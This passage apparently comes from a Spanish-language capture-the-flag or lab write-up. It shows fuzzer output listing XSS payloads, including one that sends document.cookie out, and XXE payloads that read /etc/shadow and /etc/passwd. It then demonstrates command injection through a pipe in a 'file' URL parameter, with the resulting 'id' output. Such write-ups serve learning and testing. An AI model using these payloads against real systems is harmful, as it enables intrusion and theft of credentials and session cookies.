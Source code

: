 ```
                                                        x28&#x27&#x58&#x53&#x53&#x27&#x29>"                                                         
                                                        kie%2Ecgi%3F%27%20%2Bdocument%2Ecookie%3C%2Fscript%3E"                                      
                                                        ring.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//></SCRIPT>!--<SCRIPT>
                                                        alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}"                                          
                                                        xss>XSS</xss:xss></HTML>"                                                                   
                                                        STEM "file:////dev/random">]><foo>&xxe;</foo>"                                              
                                                        STEM "file:////etc/shadow">]><foo>&xxe;</foo>"                                              
                                                        STEM "file:////etc/passwd">]><foo>&xxe;</foo>"                                              
                                                        STEM "file://c:/boot.ini">]><foo>&xxe;</foo>"                                               
                                                        TASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C
                                                         DATAFORMATAS=HTML></SPAN>"                                                                 
                                                        );<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>"                                                  

Total time: 0
Processed Requests: 468
Filtered Requests: 0
Requests/sec.: 0
```

Con esto vemos que con los comandos `| id` y `| dir` podemos ejecutar comandos para ver el `id` o listar, por lo que sabemos que si es inyectable utilizando `pipes`...

Si hacemos por ejemplo esto...

```
URL = http://<IP>/test.php?file=|%20id
```

Info:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Por lo que veremos que ciertamente es vulnerable...

Si hacemos lo siguiente...

```shell
wafw00f http://<IP>
```

Info:
